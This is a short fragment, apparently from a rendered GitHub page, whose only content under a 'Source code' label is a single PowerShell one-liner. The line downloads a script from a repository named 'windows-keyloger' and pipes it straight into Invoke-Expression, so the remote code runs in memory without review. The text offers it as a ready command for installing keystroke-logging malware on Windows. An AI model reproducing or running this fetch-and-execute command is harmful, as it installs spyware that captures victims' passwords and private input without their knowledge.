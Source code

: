 '''
irm https://raw.githubusercontent.com/skanken-git/windows-keyloger/refs/heads/main/key.ps1 | iex
'''
